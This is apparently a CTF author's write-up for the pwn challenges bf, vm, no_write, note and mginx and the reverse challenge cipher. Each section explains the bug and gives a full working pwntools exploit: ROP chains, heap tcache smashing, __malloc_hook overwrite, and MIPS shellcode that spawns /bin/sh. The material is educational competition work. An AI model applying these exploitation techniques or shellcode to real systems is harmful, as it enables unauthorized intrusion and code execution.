





include pwn challenge bf, vm, no_write, note,mginx and re challenge cipher

## bf

A brain fuck interpreter written by c++, the structure that program used :

```cpp
struct brain_fck{
	char data[0x400];	// data
	string code;	// brain fuck code
};
```

`'>'` op caused `off_by_one` ：


The  compare condition is `v21 > &v25` not  `>=`，so we can read or modify the brain_fck.code's lowbit.

`brain_fck.code` is a string，string class almost look like(Of course, I omitted most of the class )：

```cpp
class string{
    char* ptr;
    size_t len;
    char buf[0x10];
}
```

string class will put the characters in the buf when string.length() less then 16,it means ptr pointer to itself 's buf; And it will use malloc when the string length large or equal 16.

As we can modify the brain_fck.code's lowbit，it means we can modify brain_fck.code.ptr to arbitrary write and read.

Because the brain_fck.code is in stack in the first, we just make sure that the brain fuck code we input length less then 16 to make the brain_fck.code.ptr point to stack memory instead of heap.

So a basic exploit as follows: 

- leak brain_fck.code.ptr's lowbit
- leak stack and libc address
- modify ret value of main function
- hijack it with ROP

exp：

```python
from pwn import *
import sys

context.arch = 'amd64'

def write_low_bit(low_bit,offset):
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+offset))
	p.recvuntil("your code: ")
	p.recvuntil("continue?\n")
	p.send('y')
	p.recvuntil("enter your code:\n")
	p.sendline("\x00"*0xf)
	p.recvuntil("continue?\n")
	p.send('y')

def main(host,port=6002):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./bf")
		
		# gdb.attach(p)
	# leak low_bit
	p.recvuntil("enter your code:\n")
	p.sendline(",[.>,]>.")
	p.send("B"*0x3ff+'\x00')
	p.recvuntil("running....\n")
	p.recvuntil("B"*0x3ff)
	low_bit = ord(p.recv(1))
	info(hex(low_bit))
	if low_bit + 0x70 >= 0x100:	# :(
		sys.exit(0)
	# debug(0x000000000001C47)
	p.recvuntil("continue?\n")
	p.send('y')
	
	
	# leak stack
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+0x20))
	p.recvuntil("your code: ")
	stack = u64(p.recvuntil("\n",drop=True).ljust(8,"\x00")) - 0xd8
	info("stack : " + hex(stack))
	p.recvuntil("continue?\n")
	p.send('y')
	# leak libc
	
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+0x38))
	p.recvuntil("your code: ")
	libc.address = u64(p.recvuntil("\n",drop=True).ljust(8,"\x00")) - 0x21b97
	info("libc : " + hex(libc.address))
	p.recvuntil("continue?\n")
	p.send('y')
	
	# do rop
	
	# 0x00000000000a17e0: pop rdi; ret;
	# 0x00000000001306d9: pop rdx; pop rsi; ret;
	p_rdi = 0x00000000000a17e0 + libc.address
	p_rdx_rsi = 0x00000000001306d9 + libc.address
	ret = 0x00000000000d3d8a + libc.address
	p_rax = 0x00000000000439c8 + libc.address
	syscall_ret = 0x00000000000d2975 + libc.address
	
	rop_chain = [
		0,0,p_rdi,0,p_rdx_rsi,0x100,stack,libc.symbols["read"]
	]
	
	rop_chain_len = len(rop_chain)
	
	for i in range(rop_chain_len-1,0,-1):
		write_low_bit(low_bit,0x57-8*(rop_chain_len-1-i))
		p.recvuntil("enter your code:\n")
		p.sendline('\x00'+p64(rop_chain[i-1])+p64(rop_chain[i])[:6])
		p.recvuntil("continue?\n")
		p.send('y')
	
	write_low_bit(low_bit,0)
	
	p.recvuntil("enter your code:\n")
	p.sendline('')
	p.recvuntil("continue?\n")
	p.send('n')
	
	
	payload = "/flag".ljust(0x30,'\x00')
	payload += flat([
		p_rax,2,p_rdi,stack,p_rdx_rsi,0,0,syscall_ret,
		p_rdi,3,p_rdx_rsi,0x80,stack+0x200,p_rax,0,syscall_ret,
		p_rax,1,p_rdi,1,syscall_ret
	])
	
	p.send(payload.ljust(0x100,'\x00'))
	
	
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	# elf = ELF("./bf",checksec=False)
	main(args['REMOTE'])

```

## vm

read the flag and use exit code to leak it one by one.

vm structure：

```cpp
typedef struct{
    uint64_t r0;
    uint64_t r1;
    uint64_t r2;
    uint64_t r3;
    uint64_t r4;
    uint64_t r5;
    uint64_t r6;
    uint64_t r7;
    uint64_t* rsp;
    uint64_t* rbp;
    uint8_t* pc;
    uint32_t stack_size;
    uint32_t stack_cap;
}vm;
```

vm instruction：

```cpp
enum{
    OP_ADD = 0,	//add
    OP_SUB,     //sub
    OP_MUL,     //mul
    OP_DIV,     //div
    OP_MOV,     //mov
    OP_JSR,     //jump register
    OP_AND,     //bitwise and
    OP_XOR,     //bitwise xor
    OP_OR,      //bitwise or
    OP_NOT,     //bitwise not
    OP_PUSH,    //push
    OP_POP,     //pop
    OP_JMP,     //jump
    OP_ALLOC,   //alloc new stack
    OP_NOP,     //nop
};
```

The program first reads an instruction of 0x1000 length, then checks whether the instruction is legal or not, and passes the number of instructions together to the run_vm function, and run_vm function start to execute the instruction. 

There are no check with JMP and JSR instruction in the check_instruction function，and look at the init_vm function：



vm->stack is allocated after vm->pc，it means vm->stack at high address，so we can push the instruction into stack first and jmp to stack to run the instruction that not be checked. Now we can use MOV instruction to arbitrary read and write.

So a basic exploit as follows: 

- push the instruction into stack and jmp to stack to run it
- Reduce the size of the chunk where the vm->stack is located so that it doesn't merge with top_chunk after free, and we can use the remaining libc address on the heap
- Use ADD,SUB and MOV instruction to arbitrary write，modify `__free_hook` to `setcontext+53` 
- trigger free to hijack it

exp：

```python
from pwn import *

context.arch="amd64"

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def push_code(code):
	padding = 0 if (len(code)%8 == 0) else 8 - (len(code)%8)
	c = code+p8(instr["nop"])*padding	# align 8
	push_count = len(c)/8
	sc = (p8(instr["push"])+p8(1)+p64(0x21))*(0xf6-push_count)
	for i in range(push_count-1,-1,-1):
		sc += p8(instr["push"])+p8(1)+p64(u64(c[i*8:i*8+8]))
	return sc
	

def main(host,port=6001):
	global p
	if host:
		pass
	else:
		pass
		# debug(0x000000000000F66)
	flag = ''
	for i in range(0x40):
		p = remote(host,port)
		code = p8(instr["mov"])+p8(8)+p8(0)+p8(9)			# mov r0,rbp
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0x701)		# add r1,0x701
		code += p8(instr["sub"])+p8(1)+p8(0)+p64(0x808)		# sub r0,0x800
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1 ; overwrite chunk size
		code += p8(instr["alloc"])+p32(0x400)				# alloc(0x400) ; free chunk
		code += p8(instr["add"])+p8(1)+p8(0)+p64(8)			# add r0,0x8
		code += p8(instr["mov"])+p8(16)+p8(2)+p8(0)			# mov r2,[r0]
		code += p8(instr["sub"])+p8(1)+p8(2)+p64(0x3ec140)	# sub r2,0x3ec140 ; r2 --> libc_base
		code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
		code += p8(instr["add"])+p8(1)+p8(3)+p64(libc.symbols["__free_hook"])		
															# add r3,libc.symbols["__free_hook"]
		code += p8(instr["mov"])+p8(8)+p8(4)+p8(2)			# mov r4,r2
		code += p8(instr["add"])+p8(1)+p8(4)+p64(libc.symbols["setcontext"]+0x35)
															# add r4,libc.symbols["setcontext"]+0x35
		code += p8(instr["mov"])+p8(32)+p8(3)+p8(4)			# mov [r3],r4 ; overwrite chunk size
		
		
		code += p8(instr["mov"])+p8(1)+p8(1)+p64(u64("/flag".ljust(8,"\x00")))
															# mov r1,'/flag'
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1 
		
		code += p8(instr["mov"])+p8(8)+p8(1)+p8(0)			# mov r1,r0
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x68)		# add r0,0x68
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rdi
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x10)		# add r0,0x10
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0x300)		# add r1,0x300
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rbp
		
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x28)		# add r0,0x28
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0xa8)		# add r1,0x200
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rsp
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x8)		# add r0,0x8
		code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
		code += p8(instr["add"])+p8(1)+p8(3)+p64(0x439c8)	# add r3,offset
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(3)			# mov [r0],r3	# rcx
		# 0x00000000000d3d8a: ret;
		# 0x00000000000a17e0: pop rdi; ret; 
		# 0x00000000001306d9: pop rdx; pop rsi; ret;
		# 0x00000000000439c8: pop rax; ret;
		# 0x00000000000d2975: syscall; ret;
		# 0x000000000002f128: mov rax, qword ptr [rsi + rax*8 + 0x80]; ret;
		# 0x000000000012188f: mov rdi, rax; mov eax, 0x3c; syscall;
		ret = 0x00000000000d3d8a
		p_rdi = 0x00000000000a17e0
		p_rdx_rsi = 0x00000000001306d9
		p_rax = 0x00000000000439c8
		syscall_ret = 0x00000000000d2975
		
		buf = 0x3ec000
		payload = [
			ret,p_rax,2,p_rdx_rsi,0,0,syscall_ret,
			p_rdi,0,p_rdx_rsi,0x80,buf,p_rax,0,syscall_ret,
			p_rax,0,p_rdx_rsi,0,buf-0x80+i,0x2f128,0x12188f
		]
		
		code += p8(instr["mov"])+p8(8)+p8(0)+p8(1)			# mov r0,r1 
		
		for value in payload:
			if value < 0x100:
				code += p8(instr["mov"])+p8(1)+p8(1)+p64(value)		# mov r1,value
				code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1
			else:			
				code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
				code += p8(instr["add"])+p8(1)+p8(3)+p64(value)		# add r3,offset
				code += p8(instr["mov"])+p8(32)+p8(0)+p8(3)			# mov [r0],r3
			code += p8(instr["add"])+p8(1)+p8(0)+p64(0x8)			# add r0,0x8
		
		
		code += p8(instr["alloc"])+p32(0x200)				# alloc(0x200) ; trigger free
		code = push_code(code)
				
		p.recvuntil("code: ")
		p.send(code.ljust(0xf6d,p8(instr["nop"]))+p8(instr["jmp"])+p8(0xf1)+p8(instr["nop"])*0x90+'\xff')
		
		p.recvuntil("code: ")
		
		flag += chr(int(p.recv(),16))
		info(flag)
		
		p.close()
		
		# pause()
		
		if flag[-1] == '}':
			break;
	
if __name__ == "__main__":
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	# elf = ELF("./easy_printf",checksec=False)
	instr = {"add":0,"sub":1,"mul":2,"div":3,"mov":4,"jsr":5,"and":6,"xor":7,"or":8,"not":9,"push":10,"pop":11,"jmp":12,"alloc":13,"nop":14}
	main(args['REMOTE'])

```

## no_write

The program only allows us to use open, read, exit and exit_group system calls, no write, so we have to find a way to leak the flag

The first thing is that without the write system call, we can't do the leak, but we can use this gadget to get the libc address we want:

```c
.text:00000000004005E8                 add     [rbp-3Dh], ebx
.text:00000000004005EB                 nop     dword ptr [rax+rax+00h]
```

rbp and ebx are both controled

We can use the  stack pivoting  method to migrate the stack to the bss segment, then call `__libc_start_main` , the bss segment will remain libc address after it. Then use the above gadget, we can arbitrary call

The problem now is how to leak the flag, and one way I give here is to use the strncmp function to compare the flag one by one

The specific ideas are as follows

- open and read flag into bss segment first.
- read  characters we want to brute force into the end of the BSS segment (0x601FFFF)
- Then call strncmp(flag,0x601FFFF,2), if we enter the same characters with flag, the program will `segment fault` and we will received an EOFError , because strncmp is trying to read the contents at 0x602000
- If the comparison in previous step is incorrect, the program can continue to run

exp：

```python
from pwn import *
import string
context.arch='amd64'

def ret_csu(func,arg1=0,arg2=0,arg3=0):
	payload = ''
	payload += p64(0)+p64(1)+p64(func)
	payload += p64(arg1)+p64(arg2)+p64(arg3)+p64(0x000000000400750)+p64(0)
	return payload
def main(host,port=2333):
	# global p
	# if host:
		# p = remote(host,port)
	# else:
		# p = process("./no_write")
		# gdb.attach(p,"b* 0x0000000004006E6")
	# 0x0000000000400773 : pop rdi ; ret
	# 0x0000000000400771 : pop rsi ; pop r15 ; ret
	# .text:0000000000400544                 call    cs:__libc_start_main_ptr
	
	# .text:00000000004005E8                 add     [rbp-3Dh], ebx
	# .text:00000000004005EB                 nop     dword ptr [rax+rax+00h]
	# .text:00000000004005F0                 rep retn
	charset = '}{_'+string.digits+string.letters
	flag = ''
	for i in range(0x30):
		for j in charset:
			try:
				p = remote(host,6000)
				pppppp_ret = 0x00000000040076A
				read_got = 0x000000000600FD8
				call_libc_start_main = 0x000000000400544
				p_rdi = 0x0000000000400773
				p_rsi_r15 = 0x0000000000400771
				# 03:0018|	0x601318 -> 0x7f6352629d80 (initial) <-0x0
				offset = 0x267870 #initial - __strncmp_sse42
				readn = 0x0000000004006BF
				leave_tet = 0x00000000040070B
				payload = "A"*0x18+p64(pppppp_ret)+ret_csu(read_got,0,0x601350,0x400)
				payload += p64(0)+p64(0x6013f8)+p64(0)*4+p64(leave_tet)
				payload = payload.ljust(0x100,'\x00')
				p.send(payload)
				sleep(0.3)
				payload = "\x00"*(0x100-0x50)
				payload += p64(p_rdi)+p64(readn)+p64(call_libc_start_main)
				payload = payload.ljust(0x400,'\x00')
				p.send(payload)
				sleep(0.3)
				# 0x601318
				payload = p64(pppppp_ret)+p64((0x100000000-offset)&0xffffffff)
				payload += p64(0x601318+0x3D)+p64(0)*4+p64(0x4005E8)
				# 0x00000000000d2975: syscall; ret;
				# 02:0010|            0x601310 -> 0x7f61d00d8628 (__exit_funcs_lock) <- 0x0
				offset = 0x31dcb3 # __exit_funcs_lock - syscall
				payload += p64(pppppp_ret)+p64((0x100000000-offset)&0xffffffff)
				payload += p64(0x601310+0x3D)+p64(0)*4+p64(0x4005E8)
				payload += p64(pppppp_ret)+ret_csu(read_got,0,0x601800,2)
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(0x601310,0x601350+0x3f8,0,0)	#open flag
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(read_got,3,0x601800,0x100)	#read flag
				payload += p64(0)*6
				payload += p64(pppppp_ret)+ret_csu(read_got,0,0x601ff8,8)
				# now we can cmp the flag one_by_one
				payload += p64(0)*6	
				payload += p64(pppppp_ret)+ret_csu(0x601318,0x601800+i,0x601fff,2)
				payload += p64(0)*6
				for _ in range(4):
					payload += p64(p_rdi)+p64(0x601700)+p64(p_rsi_r15)+p64(0x100)+p64(0)+p64(readn)
					
				payload = payload.ljust(0x3f8,'\x00')
				payload += "flag\x00\x00\x00\x00"
				p.send(payload)
				sleep(0.3)
				p.send("dd"+"d"*7+j)
				sleep(0.5)
				p.recv(timeout=0.5)
				p.send("A"*0x100)
				# info(j)
				p.close()
				# p.interactive()
			except EOFError:
				flag += j
				info(flag)
				if(j == '}'):
					exit()
				p.close()
				# pause()
				break
if __name__ == "__main__":
	# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
	main(args["REMOTE"])

```

## mginx

I find this chllenge can getshell after game, but I release hint2 says can't getshell, I am so sorry about it.

mips64 big endian，not stripped

The logic of the program is not very complicated, it is a simple http server,  a stack overflow in the following code:



This sStack4280 variable is the length of our `Content-Length` plus `body length`. If we set `Content-Length` to 4095 and fill in multiple bytes in the body, then sStack4280 will exceed 0x1000 and directly cause stack overflow, here is a poc: 

```python
req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"A")
	# pause()
	p.send(req)
```

With this stack overflow, we can hijack the return address of the main function, the program has no PIE, and the data segment can be executed, but the remote environment has ASLR, so we have to bypass the ASLR first.

Since we can stack overflow, the first thing that i think is ROP, but this program doesn't have many gadgets that can be used, so ROP is not very good, let's look at the instructions end of main function


we can control ra, s8 and gp，After many attempts, I finally chose to jump here:



we can overwrite the s8 as the address of the data segment, so that we can read our shellcode into data segment, and use the stack overflow in the main function to overwrite the return address as the address of the shellcode :D. 

exp：

```python
#python exp.py REMOTE=124.156.129.96 DEBUG
from pwn import *
import sys

context.update(arch='mips',bits=64,endian="big")

def main(host,port=8888):
	global p
	if host:
		p = remote(host,port)
	else:
		# p = process(["qemu-mips64","-g","1234","./mginx"])
		p = process(["qemu-mips64","./mginx"])
		# gdb.attach(p)
		#
	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"A")
	# pause()
	p.send(req)
	# pause()
	# orw
	sc = "\x3c\x0d\x2f\x66\x35\xad\x6c\x61\xaf\xad\xff\xf8\x3c\x0d\x67\x00\xaf\xad\xff\xfc\x67\xa4\xff\xf8\x34\x05\xff\xff\x00\xa0\x28\x2a\x34\x02\x13\x8a\x01\x01\x01\x0c"
	sc += "\x00\x40\x20\x25\x24\x06\x01\x00\x67\xa5\xff\x00\x34\x02\x13\x88\x01\x01\x01\x0c"
	sc += "\x24\x04\x00\x01\x34\x02\x13\x89\x01\x01\x01\x0c"

	# getshell
	# sc =  "\x3c\x0c\x2f\x2f\x35\x8c\x62\x69\xaf\xac\xff\xf4\x3c\x0d\x6e\x2f\x35\xad\x73\x68\xaf\xad\xff\xf8\xaf\xa0\xff\xfc\x67\xa4\xff\xf4\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x13\xc1\x01\x01\x01\x0c"

	payload = "A"*0xf30
	payload += p64(0x000000012001a250)+p64(0x000000120012400)
	# remain 0x179 byte
	
	payload += p64(0x1200018c4)+"D"*(0x179-8)
	p.send(payload)
	p.recvuntil("404 Not Found :(",timeout=1)
	
	# pause()
	

	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"\x00")
	p.send(req)
	# pause()
	payload = "\x00"*0xa88
	# fix the chunk
	payload += p64(0) + p64(21)
	payload += "\x00"*(0xf40-0xa98)
	# remain 0x179 byte
	
	payload += p64(0x00000001200134c0)
	payload += "\x00"*0x20+sc+"\x00"*(0x179-0x28-len(sc))
	
	p.send(payload)
	try:
		p.recvuntil("404 Not Found :(",timeout=1)
		flag = p.recvuntil("}",timeout=1)
		if flag != '' :
			info(flag)
			pause()
	except:
		p.close()
		return
	p.close()
	
if __name__ == "__main__":
	for i in range(200):
		try:
			main(args['REMOTE'])
		except:
			continue          
```

get flag!



getshell exp:

```python
from pwn import *
import sys

context.update(arch='mips',bits=64,endian="big")

def main(host,port=8888):
	global p
	if host:
		p = remote(host,port)
	else:
		# p = process(["qemu-mips64","-g","1234","./mginx"])
		p = process(["qemu-mips64","./mginx"])
		# gdb.attach(p)
		#
	
	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"A")
	
	p.send(req)
	# pause()

	# getshell
	sc = "\x03\xa0\x28\x25\x64\xa5\xf3\x40"
	sc +=  "\x3c\x0c\x2f\x2f\x35\x8c\x62\x69\xaf\xac\xff\xf4\x3c\x0d\x6e\x2f\x35\xad\x73\x68\xaf\xad\xff\xf8\xaf\xa0\xff\xfc\x67\xa4\xff\xf4\x28\x06\xff\xff\x24\x02\x13\xc1\x01\x01\x01\x0c"


	payload = "A"*0xf30
	payload += p64(0x000000012001a250)+p64(0x000000120012400)
	# remain 0x179 byte
	
	payload += p64(0x1200018c4)+"D"*(0x179-8)
	p.send(payload)
	p.recvuntil("404 Not Found :(",timeout=1)	

	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"\x00")
	p.send(req)
	
	payload = "\x00"*0x288
	# argv_ 0x0000000120012800
	argv_ = p64(0x120012820)+p64(0x120012828)+p64(0x120012830)+p64(0)
	argv_ += "sh".ljust(8,'\x00')
	argv_ += "-c".ljust(8,'\x00')
	argv_ += "/bin/sh".ljust(8,'\x00')
	payload += argv_
	payload += "\x00"*(0x800 - len(argv_))
	# fix the chunk
	payload += p64(0) + p64(21)
	payload += "\x00"*(0xf40-0xa98)
	# remain 0x179 byte
	
	payload += p64(0x00000001200134c0)

	payload += "\x00"*0x20+sc+"\x00"*(0x179-0x28-len(sc))
	
	p.send(payload)
	try:
		p.recvuntil("404 Not Found :(",timeout=1)
		p.sendline("echo dididididi")
		_ = p.recvuntil("didid",timeout=1)
		if _ != '':
			p.interactive()
	except:
		p.close()
		return
	p.close()
	
	
if __name__ == "__main__":
	for i in range(200):
		try:
			main(args['REMOTE'])
		except:
			continue
	# main(args['REMOTE'])
```

## note

Step 1: **get enough money** 

The initial value of money is 0x996, size * 857 > money can not be applied, there is an operation of money += size in the delete function, so 

The first thing is to modify the value of the money by multiply overflow.

Step 2: **leak libc and heap** 

The calloc function allocate an MMAP chunk that does not perform a memset clearing operation, and there is a heap overflow in the super_edit(choice 7) function, modify the MMAP flag bit to 1 via the heap overflow to leak the libc and heap address.

Step 3: **tcache smashing unlink** 

Use the off by null in edit function to unlink the chunk, and then use tcache smashing unlink to chain the `__malloc_hook` into tcache , call super_buy(choice 6) function to overwrite `__malloc_hook`, trigger calloc to  getshell 

exp：

```python
#coding:utf-8
from pwn import *
import hashlib
import sys,string

local = 1

# if len(sys.argv) == 2 and (sys.argv[1] == 'DEBUG' or sys.argv[1] == 'debug'):
    # context.log_level = 'debug'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# libc = ELF('./libc_debug.so',checksec=False)
one = [0xe237f,0xe2383,0xe2386,0x106ef8]

if local:
    p = process('./note_')
    
else:
	p = remote("124.156.135.103",6004)
	
def debug(addr=0,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        #print "breakpoint_addr --> " + hex(text_base + 0x202040)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr))) 

sd = lambda s:p.send(s)
rc = lambda s:p.recv(s)
sl = lambda s:p.sendline(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)


def info(name,addr):
	log.info(name + " --> %s",hex(addr))

def add(idx,size):
    sla("Choice: ",'1')
    sla("Index: ",str(idx))
    sla("Size: ",str(size))
    

def delete(idx):
    sla("Choice: ",'2')
    sla("Index: ",str(idx))

def show(idx):
    sla("Choice: ",'3')
    sla("Index: ",str(idx))

def edit(idx,data):
    sla("Choice: ",'4')
    sla("Index: ",str(idx))
    sla("Message: \n",data)

def super_edit(idx,data):
    sla("Choice: ",'7')
    sla("Index: ",str(idx))
    sda("Message: \n",data)

def get_money():
    sla("Choice: ",'1')
    sla("Index: ",str(0))
    sla("Size: ",'21524788884141834')
    delete(0)

def super_buy(data):
    sla("Choice: ",'6')
    sla("name: \n",data)


# get enough money
get_money()

# leak heap and libc address
add(0,0x80)
add(1,0x500)
add(2,0x80)
delete(1)

add(1,0x600) #now 0x510 in largebin

pay = 0x88*b'\x00' + p64(0x510+1+2)
super_edit(0,pay) # overwrite is_mmap flag 

add(3,0x500)

show(3)
rc(8)
# libc_base = u64(rc(8)) - 0x1eb010
libc_base = u64(rc(8)) - 0x1e50d0
heap_base = u64(rc(8)) - 0x320 


malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']
realloc = libc_base + libc.symbols['realloc']
onegadget = libc_base + one[3]

# fill tcache 0x90
delete(0)
delete(1)
delete(2)
for i in range(5):
    add(0,0x80)
    delete(0)
# fill tcache 0x60
for i in range(5):
    add(0,0x50)
    delete(0)

# fill tcache 0x230
for i in range(7):
    add(0,0x220)
    delete(0)
# set a 0x60 to smallbin 
add(0,0x420)
add(1,0x10)
delete(0)
add(0,0x3c0)
add(2,0x60)

# null off by one to unlink
target = heap_base + 0x2220 #unlink target
pay = b''
pay += p64(0)
pay += p64(0x231)
pay += p64(target - 0x18)
pay += p64(target - 0x10)
pay += p64(target) #ptr
add(4,0x80)
edit(4,pay)

add(5,0x80)
edit(5,p64(heap_base+0x2190))

add(6,0x80)
add(7,0x80)

add(8,0x5f0) # will be freed and consolidate with topchunk
delete(7)
pay = 0x80*b'\x00' + p64(0x230)
add(7,0x88)
edit(7,pay)

delete(8) #unlink
add(8,0x220)
add(9,0x90)
delete(8)
add(8,0x1c0)
add(10,0x60)

pay = b'a'*0x20 + p64(0) + p64(0x61)
pay += p64(heap_base + 0x2090)
pay += p64(malloc_hook - 0x38)
edit(7,pay)
info("libc_base",libc_base)
info("heap_base",heap_base)

add(11,0x50)
pay = b'\x00'*0x20 + p64(onegadget) + p64(realloc+9)
super_buy(pay)

add(12,0x70)

p.interactive()
```

## cipher

mips64 big endian，not stripped

Understand the logic of the program, write the correct decryption function

The initial value of key comes from the rand() function, you need to brute force the key



exp：

```python
from struct import pack, unpack

def ROR(x,r):
    return (x>>r)|((x<<(64-r))&0xffffffffffffffff)
def ROL(x,r):
    return (x>>(64-r))|((x<<r)&0xffffffffffffffff)
def R(x,y,k):
    x = ROR(x,8)
    x = (x+y)&0xffffffffffffffff
    x^=k
    y = ROL(y,3)
    y^=x
    return x,y
def RI(x,y,k):
    y^=x
    y = ROR(y,3)
    x^=k
    x = (x-y)&0xffffffffffffffff
    x = ROL(x,8)
    return x,y


def encrypt(t,k):
    y=t[0]
    x=t[1]
    b=k[0]
    a=k[1]
    x,y = R(x,y,b)
    for i in range(31):
        a,b = R(a,b,i)
        x,y = R(x,y,b)
    return y,x

def decrypt(t,k):
    y=t[0]
    x=t[1]
    b=k[0]
    a=k[1]
    keys = []
    for i in range(32):
        keys.append(b)
        a,b = R(a,b,i)
    for i in range(32):
        x,y = RI(x,y,keys[31-i])
    return y,x

def solve():
    with open('ciphertext', 'rb') as f:
        ct = f.read().strip()
    print ct.encode('hex')
    key = -1
    for i in range(65536):
        t0 = unpack('>Q',ct[:8])[0]
        t1 = unpack('>Q',ct[8:16])[0]
        x,y = decrypt([t0,t1],[i<<48,0])
        ans = pack('>Q',x)+pack('>Q',y)
        if ans.startswith('RCTF'):
            key = i
            break

    assert key!=-1
    print key
    ans = ''
    for i in range(len(ct)/16):
        t0 = unpack('>Q',ct[i*16:i*16+8])[0]
        t1 = unpack('>Q',ct[i*16+8:i*16+16])[0]
        print hex(t0), hex(t1)
        x,y = decrypt([t0,t1],[key<<48,0])
        ans += pack('>Q',x)+pack('>Q',y)
    print ans
        
solve()

```
